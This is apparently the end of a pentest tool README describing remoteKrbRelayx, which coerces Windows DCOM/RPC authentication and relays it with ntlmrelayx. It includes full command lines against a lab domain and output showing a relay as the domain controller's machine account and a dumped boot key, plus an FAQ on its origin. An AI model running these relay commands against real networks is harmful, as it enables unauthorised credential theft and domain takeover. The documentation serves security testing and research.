 ```
└─$ python3 remoteKrbRelayx.py 'cicada.vl/Administrator:NewPassword1!@dc-jpq225.cicada.vl' -local-ip 10.10.14.65 -k -clsid f87b28f1-da9a-4f35-8ec0-800efcf26b83 -session 3 -alternate-server 10.10.14.65 -alternate-protocol rpc -alternate-rpc-port 1135 -authentication-type ntlm

└─$ ntlmrelayx.py -t smb://ofwindows1.cicada.vl:4445 -smb2support -ip 10.10.14.65 --rpc-port 1135
[...]
[*] RPCD: Received connection from 10.129.234.48, attacking target smb://ofwindows1.cicada.vl:4445
[*] Authenticating against smb://ofwindows1.cicada.vl:4445 as CICADA\Administrator SUCCEED
[-] SMB SessionError: code: 0xc00000a5 - STATUS_BAD_IMPERSONATION_LEVEL - A specified impersonation level is invalid. Also used to indicate that a required impersonation level was not provided.
[...]
```

It is Administrator as expected as Administrator has session 3 on the machine. And it fails with bad impersonation level, as described in the section on cross-relaying.

However, if we get ResolveOxid2 to redirect to SMB it will authenticate with the machine account and with the right impersonation level:

```
└─$ python3 remoteKrbRelayx.py 'cicada.vl/Administrator:NewPassword1!@dc-jpq225.cicada.vl' -local-ip 10.10.14.65 -k -clsid f87b28f1-da9a-4f35-8ec0-800efcf26b83 -session 3 -alternate-server 10.10.14.65 -alternate-protocol smb -authentication-type ntlm

└─$ ntlmrelayx.py -t smb://ofwindows1.cicada.vl:4445 -smb2support -ip 10.10.14.65 --rpc-port 1135
[...]
[*] SMBD-Thread-6 (process_request_thread): Received connection from 10.129.234.48, attacking target smb://ofwindows1.cicada.vl:4445
[*] Authenticating against smb://ofwindows1.cicada.vl:4445 as CICADA/DC-JPQ225$ SUCCEED
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xXXXXXXXXXXXXXXXXXXXXXXXX
[...]
```

As the CredMarshall-attack is patched for SMB, and SMB does not care about the SPN we set in the ResolveOxid2 response, we can only use this to do NTLM-relaying. Now, users being able to coerce NTLM-authentication to SMB from machines in a domain is not exactly new, as there are several well known ways to do this, like using PetitPotam. However, as [Microsoft are slowly limiting some of these methods on newer Windows versions](https://blog.redteam-pentesting.de/2025/windows-coercion/) this might be more interesting? On the other hand, I found multiple clsids that I could get SYSTEM-activation directly with a relatively lowlevel user on cicada.vl, just by testing some of the ones outputted by RemoteKrbRelay's checker-tool, so it might unneccessary complicated? Anyhow, it is a wierd quirk I thought it was worth documenting. I also just relay the first NTLM-request when it tries to get to epmapper. Maybe having a fake epmapper and relaying later is possible and gives a different result?

## FAQ

- Why did you make this tool?
    - On pentests we suprisingly often found ESC8-vulnerabilities that required Kerberos-authentication. We used to do PetitPetam (or similar) and the CredMarshal-trick, but now that this has been patched we need an alternative way of getting Kerberos-authentication we can relay. RemoteKrbRelay exists of course, but we have generally used Linux during our pentests, so we wanted a Linux-tool.
- Why is there no LDAP-relay client?
    - Relaying RPC to LDAP was largely patched in 2022. There are rumours about a [patch bypass](https://x.com/CICADA8Research/status/1891408177016569950), but I haven't managed to find that when testing. So it was not worth the effort for me as for now, but might come later either by me or if someone wants to make a PR.
- Why not make rpcrelayserver.py a part of KrbRelayx instead of making a new tool?
    - I wanted to make a Python version of RemoteKrbRelay.